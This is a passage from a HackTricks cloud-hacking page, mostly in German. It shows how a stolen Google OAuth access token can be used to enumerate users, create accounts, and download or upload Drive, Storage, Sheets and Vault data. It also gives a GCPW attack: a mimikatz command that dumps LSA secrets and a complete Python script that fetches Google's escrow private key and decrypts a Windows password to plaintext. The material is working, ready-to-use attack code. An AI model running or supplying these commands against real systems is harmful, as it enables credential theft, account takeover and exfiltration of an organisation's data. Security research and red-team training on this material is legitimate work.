<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** ist ein Add-On für Google Workspace, das Werkzeuge für Datenaufbewahrung, Suche und Export für die Daten Ihrer Organisation bietet, die in Google Workspace-Diensten wie Gmail, Drive, Chat und mehr gespeichert sind.

* Ein **Matter** in Google Workspace Vault ist ein **Container**, der alle Informationen zu einem bestimmten Fall, einer Untersuchung oder einer rechtlichen Angelegenheit organisiert und gruppiert. Er dient als zentrales Hub für die Verwaltung von **Holds**, **Searches** und **Exports**, die sich auf dieses spezielle Thema beziehen.
* Ein **Hold** in Google Workspace Vault ist eine **Bewahrungsmaßnahme**, die auf bestimmte Benutzer oder Gruppen angewendet wird, um die **Löschung oder Änderung** ihrer Daten innerhalb der Google Workspace-Dienste zu **verhindern**. Holds stellen sicher, dass relevante Informationen während der Dauer eines rechtlichen Falls oder einer Untersuchung intakt und unverändert bleiben.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Mehr [API-Endpunkte in den Dokumenten](https://developers.google.com/vault/reference/rest).

</details>

## GCPW - Wiederherstellung des Klartextpassworts

Um GCPW auszunutzen, um den Klartext des Passworts wiederherzustellen, ist es möglich, das verschlüsselte Passwort aus **LSASS** mit **mimikatz** zu dumpen:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Dann suchen Sie nach dem Geheimnis wie `Chrome-GCPW-<sid>` wie im Bild:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Dann ist es mit einem **Zugriffstoken** mit dem Scope `https://www.google.com/accounts/OAuthLogin` möglich, den privaten Schlüssel anzufordern, um das Passwort zu entschlüsseln:

<details>

<summary>Script zum Abrufen des Passworts im Klartext, gegeben das Zugriffstoken, das verschlüsselte Passwort und die Ressourcen-ID</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Es ist möglich, die Schlüsselkomponenten davon im Chromium-Quellcode zu finden:

* API-Domain: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API-Endpunkt: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

## Referenzen

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
